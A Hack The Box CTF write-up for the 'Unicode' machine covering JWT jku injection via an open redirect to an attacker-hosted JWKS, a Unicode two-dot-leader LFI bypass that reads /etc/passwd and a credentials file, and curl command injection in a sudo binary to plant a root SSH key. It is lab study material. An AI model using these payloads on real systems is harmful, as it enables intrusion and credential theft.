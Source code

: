 # 🧪 Unicode – HTB Writeup

**Platform:** Hack The Box  
**Difficulty:** Medium  
**OS:** Linux  
**Release Date:** 5 May 2022  
**Author:** wh0am1root  
**Writeup by:** inkedQT  
**User flag:** `e0a0c27b634bd51e0aee4cb0********`  
**Root flag:** `ca86fe9edd53a27e61f96099********`

---

## 🧭 Overview

Unicode is a Linux machine that involves JWT manipulation via JWKS injection, filtered LFI bypass using Unicode tricks, and a Python binary reverse-engineered for privilege escalation. Key elements include JWT key confusion, a HostSplit-based Unicode LFI bypass, and exploiting a filtered `curl` command in a custom executable.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate=1000 -T4 10.10.11.126
nmap -p22,80 -sV 10.10.11.126
```

Open Ports:
- `22/tcp` – OpenSSH
- `80/tcp` – Nginx

### 🕵️‍♂️ Web Enum

- Website presents a **Hackmedia** portal.
- Registration/login available.
- File upload only accepts PDFs.
- JWT-based cookie is assigned after login.

Cookie Header:
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "jku": "http://hackmedia.htb/static/jwks.json"
}
```

---

## 🧨 Exploitation

### 🔐 JWT JWKS Injection

- A `jku` header points to a JWKS file.
- There's an open `/redirect?url=` endpoint → exploitable for **key confusion**.
- Host a malicious JWKS file:

```bash
cd jwt_tool
python3 -m http.server 80
```

- Forge a token using:
```bash
python3 jwt_tool.py <JWT> \
  -X s \
  -ju 'http://hackmedia.htb/static/../redirect?url=10.10.14.18/jwttool_custom_jwks.json' \
  -I -pc user -pv admin
```

- Replace the `auth` cookie → gain **admin access**.

---

### 🗂️ Unicode LFI via HostSplit

- Admin dashboard loads PDF reports via:
  ```
  /display/?page=monthly.pdf
  ```

- Standard LFI blocked by WAF.
- Unicode trick: use **"Two Dot Leader"** (‥ – `U+2025`) instead of `..`

```bash
http://hackmedia.htb/display/?page=‥/‥/‥/‥/‥/‥/etc/passwd
```

- Used this to find `db.yaml`:

```bash
http://hackmedia.htb/display/?page=‥/‥/‥/home/code/coder/db.yaml
```

- Credentials inside:

```yaml
mysql_user: code
mysql_password: B3stC0d3r2021@@!
```

### 🔐 SSH Access

```bash
ssh code@hackmedia.htb
# Shell as code
```

**User flag:** `e0a0c27b634bd51e0aee4cb0********`

---

## ⬆️ Privilege Escalation

### 🔍 Sudo Check

```bash
sudo -l
# /usr/bin/treport (no password)
```

### 🔎 Reverse Engineering treport

- Binary is PyInstaller-packed.
- Extract with `pyinstxtractor.py`
- Decompile `.pyc` with `uncompyle6`

Found vulnerable code:
```python
cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
```

- Unsafe: `curl` injection is possible
- `{}`, `,` are allowed → bypass with `${IFS}` or similar

### 💥 Exploit: Inject SSH Key

```bash
# Host malicious public key
cp ~/.ssh/id_rsa.pub .
python3 -m http.server 80
```

Then on box:

```bash
sudo /usr/bin/treport
# Inject payload with URL to SSH key
```

- SSH as root

**Root flag:** `ca86fe9edd53a27e61f96099********`

---

## 📚 Lessons Learned

- 🧬 **JWT JWKS injection** via `jku` and open redirect
- 🧙 **Unicode-based LFI bypass** using HostSplit
- 🐍 **Reverse engineering PyInstaller binaries**
- 🔐 SSH key injection through filtered command injection

---

## 📸 Proof

![proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/unicode.png)